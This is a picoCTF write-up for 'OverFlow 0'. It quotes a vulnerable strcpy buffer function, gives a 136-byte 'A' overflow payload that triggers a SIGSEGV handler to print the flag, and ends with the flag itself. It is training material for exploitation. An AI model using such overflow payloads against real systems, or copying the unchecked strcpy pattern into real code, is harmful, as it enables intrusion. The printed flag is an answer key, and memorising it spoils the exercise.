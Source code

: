 # OverFlow 0 - Points: 100
<b>Description : </b>This should be easy. Overflow the correct buffer in this program and get a flag. Its also found in /problems/overflow-0_0_6d0c88d7d40bc281760b515cb6a4660a on the shell server. Source.<br>
<b>Hints : </b>Find a way to trigger the flag to print. If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
# Solved
Vulnerability located at :
```cpp
void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}
```
That function give us 128 bytes to Bufferoverflow to read flag content, we can see at here
```cpp
#define FLAGSIZE_MAX 64
char flag[FLAGSIZE_MAX];

// ...
fgets(flag,FLAGSIZE_MAX,f);
signal(SIGSEGV, sigsegv_handler);
```
That code bring us to read file of flag.txt without getting <b>Segmentation fault</b>. This is command that i use
```python
# 128 + 8 (Pointer)
(python -c 'print "A" * 136')
```
Copy the result into argument
```
./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
Flag : <b>picoCTF{3asY_P3a5y0a131490}</b>
